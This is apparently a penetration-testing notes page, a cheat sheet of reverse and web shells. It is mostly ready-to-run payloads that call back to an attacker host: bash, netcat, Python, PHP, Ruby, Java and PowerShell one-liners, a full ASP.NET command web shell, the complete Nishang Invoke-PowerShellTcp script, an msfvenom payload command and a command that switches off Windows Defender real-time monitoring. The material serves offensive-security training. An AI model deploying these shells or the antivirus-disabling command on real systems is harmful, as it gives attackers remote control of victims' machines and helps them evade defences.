

# Reverse shells

??? abstract "Resources to generate reverse shells"
    - [https://www.revshells.com/](https://www.revshells.com/)
    - [Netcat for windows 32/64 bit](https://github.com/int0x33/nc.exe) 
    - [Pentesmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

??? abstract "All about shells"
    | **Shell Type** | **Description** |
    | --- |  --- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.  |
    | [`Bind shell`](bind-shells.md)  | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


**Victim's machine Initiates a connection back to a "listener" on our attacking machine box.** 

For this attack to work, first  we set the listener in the attacking machine using netcat.

```shell-session
nc -lnvp $port
# By default we will be listening in all network interfaces: 0.0.0.0
```

After that, on the victim's machine, you can launch the reverse shell connection. 

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

## Seclist reverse shells

Located under `/usr/share/seclists/Web-Shells` folder. 


## bash

```bash
bash -c 'bash -i >& /dev/tcp/$ipAttacker/$port 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.79 4321 >/tmp/f

# rm /tmp/f;
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.

# mkfifo /tmp/f;
# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.

# cat /tmp/f |
# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# /bin/sh -i 2>&1 |
# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# nc $ip <port> >/tmp/f
# Uses Netcat to send a connection to our attack host $ip listening on port <port>. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

```

## java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$ipAttacker/$port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  
## .NET ASP

The basic one:

```asp
<% eval request('cmd') %>
```

Some from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP): 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.ashx

```asp
<% @ webhandler language="C#" class="AverageHandler" %>

using System;
using System.Web;
using System.Diagnostics;
using System.IO;

public class AverageHandler : IHttpHandler
{
  /* .Net requires this to be implemented */
  public bool IsReusable
  {
    get { return true; }
  }

  /* main executing code */
  public void ProcessRequest(HttpContext ctx)
  {
    Uri url = new Uri(HttpContext.Current.Request.Url.Scheme + "://" +   HttpContext.Current.Request.Url.Authority + HttpContext.Current.Request.RawUrl);
    string command = HttpUtility.ParseQueryString(url.Query).Get("cmd");

    ctx.Response.Write("<form method='GET'>Command: <input name='cmd' value='"+command+"'><input type='submit' value='Run'></form>");
    ctx.Response.Write("<hr>");
    ctx.Response.Write("<pre>");

    /* command execution and output retrieval */
    ProcessStartInfo psi = new ProcessStartInfo();
    psi.FileName = "cmd.exe";
    psi.Arguments = "/c "+command;
    psi.RedirectStandardOutput = true;
    psi.UseShellExecute = false;
    Process p = Process.Start(psi);
    StreamReader stmrdr = p.StandardOutput;
    string s = stmrdr.ReadToEnd();
    stmrdr.Close();

    ctx.Response.Write(System.Web.HttpUtility.HtmlEncode(s));
    ctx.Response.Write("</pre>");
    ctx.Response.Write("<hr>");
    ctx.Response.Write("By <a href='http://www.twitter.com/Hypn'>@Hypn</a>, for educational purposes only.");
 }
}
```

See [shell.asa](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asa "shell.asa"), [shell.asmx](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asmx "shell.asmx"), [shell.asp](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asp "shell.asp"), [shell.aspx](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.aspx "shell.aspx"), [shell.cer](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.cer "shell.cer"), [shell.soap](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.soap "shell.soap"), [shell.xamlx](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.xamlx "shell.xamlx").


## netcat

```bash
nc -e /bin/sh $ipAttacker $port

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ipAttacker $port >/tmp/f
```

## nishang project


Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.  Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. [See nishang](nishang.md)

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

## php

```bash
php -r '$sock=fsockopen("$ipAttacker",$port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Pentestmonkey

Also, the [pentestmonkey one](pentesmonkey.md).

### weevely

[Weevely](weevely.md) is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

### phpbash

phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

Installation:

```
git clone https://github.com/Arrexel/phpbash.git
```

Simply drop the `phpbash.php` or `phpbash.min.php` file on the target and access it with any Javascript-enabled web browser.



## powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient($ipAttacker,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


# same, but without assigning $client to the new object
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$ipAttacker",$port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()

# powershell -nop -c 
# Executes powershell.exe with no profile (nop) and executes the command/script block (-c or -Command) contained in the quotes

# "$client = New-Object System.Net.Sockets.TCPClient($ipAttacker,433);
# Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses ($ipAttacker,443). The semi-colon (;) ensures the commands & code are executed sequentially.

# $stream = $client.GetStream();
# Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. 

# [byte[]]$bytes = 0..65535|%{0}; 
# Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

# while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

# Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.


# {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
# Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. 

# $sendback = (iex $data 2>&1 | Out-String ); 
# Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard input (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. 

# $sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
# Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. 

# $sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

```

Disable AV
```powershell-session
 Set-MpPreference -DisableRealtimeMonitoring $true
```


## python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ipAttacker",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$ipAttacker',$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"

```

## ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("$ipAttacker",$port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## xterm

```bash
xterm -display 10.0.0.1:1
```


## msfvenom

[See msfvenom](msfvenom.md)


```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
